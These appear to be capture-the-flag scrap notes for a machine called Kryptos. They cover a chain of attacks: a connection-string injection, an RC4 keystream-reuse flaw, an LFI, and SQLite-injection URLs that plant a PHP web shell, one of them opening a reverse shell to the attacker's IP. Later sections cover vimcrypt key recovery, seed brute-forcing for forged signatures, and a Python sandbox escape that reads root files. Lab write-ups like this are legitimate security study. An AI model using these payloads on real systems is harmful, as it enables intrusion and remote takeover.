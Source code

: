 **Kryptos - Scrap notes**

The initial login page accepts:
1. username
2. password

The parametesr contain hidden form fields, such as db, and token (anti csrf protection)

The initial login page lets us inject on the db parameter, and allows us to control the connection string
We set up our own database to mimic the application's db. 
This was done by viewing the /var/log/mysql files to understand what the application code was trying to do. 
By using wireshark, in combination with the logs, we can slowly re-create the databased used for authetication flows
One step was to use responsder3 to capture the database username and password hash
Once we had that, we could create the authentication table  

**rc4-web-step.py**
After the initial login page where we injected on the dbconnection string

We are presented with a web page that allows us to:
1. Enter a URL (e.g. http://ourIp/file.txt)
2. select an encryption algo (AES-128, RC4)
3. The application will retrieve our file and encrypt the plaintext contents
4. The application will display the ciphertext

The application was not vulnerable to RFI/LFI. The objective was to find a weakness in the implementation of the encryption functionality. 
Let's see if there's a way to retrieve the key.

We notice that when we use RC4, and encrypt the same file multiple times, the ciphertext is always the same
This shouldn't be the case in RC4- as we can see the keystream being reused from the beginning each time

if we take p(1) xor k(1) it produces c(1)
since k(1) always starts from the beginning of the keystream

We can feed the application a file that contains our ciphertext. since the keystream always starts at the beginning per request, we can recover the plaintext 

From enumeration, we noticed we could refer to <appserverIP>/dev directory and get a response
So what we'd have to do is:
  
 1. Point the application to <appserverIP>/dev 
 2. The application will return the encrypted contents of /dev/index.html
 3. We save the ciphertext contents to a file
 4. Now we make another request to the server, this time pointing to our file that contains the ciphertext contents from 2.
 5. We scrape the body of the response. It will contain the plaintext contents of /dev/index.html
  
After finding a page vulnerable to LFI, we end up using php://filter to dump the source files of a sqlite test page
The SQLlite test page was vulnerable to sql injection, and the app tell us that database files are stored within the  d9e28afcf0b274a5e0542abb67db0784 directory. We can perform a sqli, attach a database and name it a .php file. then insert php code into a table. 
Then we navigate to the d9e28afcf0b274a5e0542abb67db0784/ourphp.php file 

e.g.
`
http://127.0.0.1/dev/sqlite_test_page.php?no_results=1&bookid=1;attach%20database%20'd9e28afcf0b274a5e0542abb67db0784/test16.php'%20as%20pee;create%20table%20pee.own4%20(dataz%20TEXT);insert%20into%20pee.own4%20(dataz)%20values%20('<%3fphp%20phpinfo();%3f>');"
`  

`
http://127.0.0.1/dev/sqlite_test_page.php?no_results=1&bookid=1;attach%20database%20'd9e28afcf0b274a5e0542abb67db0784/test36.php'%20as%20pee;create%20table%20pee.own4%20(dataz%20TEXT);insert%20into%20pee.own4%20(dataz)%20values%20(%22<%3fphp%20phpinfo();echo%20'testing2';%20echo%20exec('whoami');%3f>%22);"    
`

phpinfo lists a set of disabled functions, however proc_open is not disabled 
Therefore we can reverse shell with
`
http://127.0.0.1/dev/sqlite_test_page.php?no_results=1&bookid=1;attach%20database%20'd9e28afcf0b274a5e0542abb67db0784/test50.php'%20as%20pee;create%20table%20pee.own4%20(dataz%20TEXT);insert%20into%20pee.own4%20(dataz)%20values%20(%22<%3fphp%20;%20echo%20phpversion();echo%20'<pre>';%24sock%3dfsockopen('<ourIP>',80);%24proc%3dproc_open('/bin/sh%20-i',array(0%3d>%24sock,1%3d>%24sock,2%3d>%24sock),%24pipes);echo%20'<%2fpre>';%3f>%22);"
` 

**vim-decrypt.py**  
Once we gain acccess to a shell we are presented with files creds.old (rjindael/<oldpassword>) and creds.txt  
creds.txt is encrypted, with the header "vimcrypt~02"  
Research into this shows us that this is using blowfish, and the implementation by VIM is weak  
  
vimcrypt~02 recycles the key for the first 8 blocks, and if part of the plaintext is known, we can recover the key used for at least the first 8 blocks (64 bytes)  
  
since we know that creds.old starts with rjindael, this is conveniently 8 bytes  
  
the script will use this knowledge and read the encrypted file, strip out the header, strip out the salt and iv, then try to xor  
firstblock xor plaintext to recover our key  
then move to secondblock xor key to recover the second block of plaintext.. and repeat until the 8th block  
  
kryptos.py  
once we've decrypted the login, we are finally presented with our final challenge.. included in kryptos.py  

this is a simple webs erver that accepts signed requests, and if the request is signed correctly, then eval is called with removed `__builtins__` evaluates the expression:   
`result = eval(expr, {'__builtins__':None}) # Builtins are removed, this should be pretty safe `

there is a note about the key derivation ecdsa

** kryptos-breaker.py** 
our objective here is to find the seed used to derive the signing key... if we can do this, then we can forge requests to the server and have the server evaluate any expression that we send it
the next step is to break out of the python restrictions, since `__builtins__` is removed

we iterate through a sample size of 100000 and check just how random the prng is... turns out it only generates a limited set of potential seeds.. we save the potential seed values in allseeds.txt

now we iterate through the list of seeds, and derive signing keys with an expression of (2+2)

the script will do this until we hit a signing key that is accepted by the server

.. once we've found the seed, we save it to s.txt

now we send the following msg for evaluation (based on python breakouts)
`[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').popen('cat /root/root.txt').read()`
